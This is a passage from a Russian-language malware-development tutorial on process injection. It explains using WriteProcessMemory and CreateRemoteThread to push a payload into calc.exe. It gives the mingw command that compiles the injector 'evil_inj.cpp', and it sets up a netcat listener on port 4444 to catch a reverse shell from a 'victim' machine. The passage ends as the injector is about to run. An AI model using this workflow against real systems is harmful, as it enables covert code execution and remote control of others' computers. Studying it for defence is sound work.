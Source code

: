 Затем `WriteProcessMemory` позволяет "копировать" данные между процессами, поэтому "копируем" наш полезный код в процесс `calc.exe` **(2)**. А `CreateRemoteThread` похожа на функцию `CreateThread`, но в этом случае можно указать, в каком процессе должен быть запущен новый поток **(3)**.

Теперь давайте скомпилируем этот код:    

```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc
```

![compile code injection](./images/6/2021-09-19_00-36.png){width="75%"}

Подготовка прослушивателя:
```bash
nc -lvp 4444
```

На машине жертвы сначала запустите `calc.exe`:    

![run victim's process](./images/6/2021-09-19_00-40.png){width="75%"}

Мы видим, что идентификатор процесса `calc.exe` - `1844`.

Затем запустим наш инжектор на машине жертвы:
